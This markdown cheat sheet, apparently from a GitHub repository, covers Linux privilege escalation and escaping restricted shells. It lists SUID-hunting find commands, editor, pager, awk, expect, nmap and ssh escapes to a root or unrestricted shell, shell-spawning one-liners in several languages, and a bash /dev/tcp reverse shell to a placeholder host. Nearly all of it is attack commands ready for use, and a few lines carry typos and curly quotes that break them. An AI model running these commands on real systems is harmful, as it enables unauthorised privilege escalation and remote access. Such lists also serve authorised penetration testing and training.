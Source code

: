 # Search for Commands that run as Root:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```


## Restricted Shells: rbash, rksh, rzsh, lshell and rssh
1. try ls, cd, pwd, echo commands [if these commands are restricted, 
   an error will show up with the type of restricted shell we are in (most of the time, this is rbash)]
2. press tab twice to see what commands are available.
  a. if "ls" is avaiable list binaries in /bin, /usr/bin, /usr/local/bin
  b. echo /usr/bin/*  [use globbing to list directory contents]
  c. important to check for operators and escape characters such as the following:
     > >> < | & ; : ' " `
3. Try commands wrapped
  a. (whoami)
  b. {whoami}


## Shell Execution:
```
find /home -exec sh -i \;
```
## use text editors vim, vi, nano, pico, ed
  a. :!/bin/sh, !/bin/zsh, try other shells!?!?
  b. :shell
  c. :set shell=/bin/sh

## use pagers less, more, or programs like man that use less or more by default
  a. !/bin/sh, !/bin/zsh, try other shells!?!?
  b. !/bin/bash
  c. !bash

## use awk command
```
awk 'BEGIN {system("/bin/sh")}'
```

## use expect command
```
expect
spwan sh
sh
```

## use tee command to create a script in scenarios where text editors aren't available
```
echo "bash -i" | tee script.sh
```

## use nmap command
```
nmap --interactive
nmap> !sh
```

## use ssh with the following options to escape restricted shell 
```
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "/bin/sh"
```

## Reverse Shell:

```
bash -i >& /dev/tcp/<ip-address>/<port> 0>&1
```

# Programming Language:

## Python:
```
import os; os.system("/bin/sh")
python -c ‘import pty;pty.spawn(“/bin/bash”);’
```

## PHP:
```
exec("sh -i");
```

## Perl:
```
exec "/bin/sh";
```

## Ruby:
```
exec "/bin/sh"
```

## Lua:
```
os.execute("/bin/sh")
```
